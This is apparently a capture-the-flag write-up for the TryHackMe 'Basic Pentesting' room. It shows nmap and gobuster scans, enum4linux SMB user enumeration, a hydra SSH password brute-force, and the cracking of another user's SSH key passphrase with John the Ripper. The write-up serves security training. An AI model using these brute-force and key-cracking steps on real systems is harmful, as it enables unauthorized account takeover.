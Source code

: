
## THM  Basic Pentesting 
In this writeup Today we're going to try to Solve a room in THM called Basic Pentesting
[Basic Pentesting Room](https://tryhackme.com/room/basicpentestingjt)
**The First Task :**

 - **Deploy the machine and connect to our network**

 **Second Task :**  

 - **Scan The Machine Service**

 

 - open nmap

 $ nmap -sC -sV -oN Result.txt 10.10.26.87

 ```bash
Nmap scan report for 10.10.26.87
Host is up (0.077s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h19m59s, deviation: 2h18m34s, median: -1s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2021-02-22T06:26:54-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-02-22T10:26:54
|_  start_date: N/A
 ```

 - ports  : 22  -  139 - 445
 - Now we need to take a look on the source code in main page
   10.10.26.87
	
 - sorce code : ![enter image description here](https://res.cloudinary.com/micro0x00/image/upload/v1614046984/source_kimyp5.png)
 - Now we will use [gobuster](https://github.com/OJ/gobuster) to search 
   for directories with brute-force
   

       gobuster dir -u http://10.10.26.87/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40
	```
	===============================================================
	Gobuster v3.1.0
	by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
	===============================================================
	[+] Url:            http://10.10.26.87
	[+] Threads:        40
	[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
	[+] Status codes:   200,204,301,302,307,401,403
	[+] User Agent:     gobuster/3.0.1
	[+] Timeout:        10s
	===============================================================
	2020/06/16 08:40:01 Starting gobuster
	===============================================================
	/development (Status: 301)
	```
	Now we go to [http://10.10.26.87/development/](http://10.10.26.87/development/)![enter image description here](https://res.cloudinary.com/micro0x00/image/upload/v1614047853/dev_bz7ebo.png)
	
	dev.txt:![enter image description here](https://res.cloudinary.com/micro0x00/image/upload/v1614048283/1_e5ukco.png)
	J.txt:![enter image description here](https://res.cloudinary.com/micro0x00/image/upload/v1614048378/j_xvyhf4.png)
	

## What is the username?

Now we will get user 
Try hack me give us a hint to get the user 
We have smbd open, that can give us a lot of information. We can use Enum4linux for that.

    enum4linux 10.10.26.87

![enter image description here](https://res.cloudinary.com/micro0x00/image/upload/v1614050311/Screenshot_2021-02-23_051756_ldpe6n.png)
after waiting for 5 minutes we get two user names

```
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User) <=======

```
users pop up, **jan** a.k.a. J and **kay** a.k.a. K (دماغ شغالة مش بتنام)

## What is the password ?

we will brute-force password by hydra

    └─$ hydra -l jan -P wordlist.txt ssh://10.10.26.87
```bash
login: jan & password: armando
```

## What service do you use to access the server(answer in abbreviation in all caps)?
**answer : ssh**

## What is the name of the other user you found(all lower case)?
**answer : kay**
Unfortunately when we try to ssh using the key file we see the key requires a password.

```
jan@basic2:/home/kay/.ssh$ ssh -i id_rsa kay@127.0.0.1
Enter passphrase for key 'id_rsa':

```

But luckily we can cat out this file and crack the key with  [JohnTheRipper](https://github.com/gwagstaff/CTF-Write-Ups/blob/master/TryHackMe/Basic_Webapp/9)

Using  `ssh2john.py id_rsa > john_id_rsa.hash`  we get a john-crackable file that we can start here.  `john --wordlist=/usr/share/wordlists/rockyou.txt john_id_rsa.hash`

But it quickly finds the password for the key file

```
[REDACTED]         (kay_id_rsa)

```

Trying again with the ssh file we easily log in with the file password and get the pass.bak!

Since there isnt a flag for this we can only think about the possible information we could do. Using an additional user we could see if it was part of any groups in  `/etc/groups`  or have programs that you can sudo  `Check with sudo -l`  . It truly depends on what is configured on a machine, but running something like LinPeas.sh will give you a good starting point!

## What is the final password you obtain?

That contains our final flags!

***************
![here](https://media.giphy.com/media/Kd03ofSatuwMXgJcuz/giphy.gif)
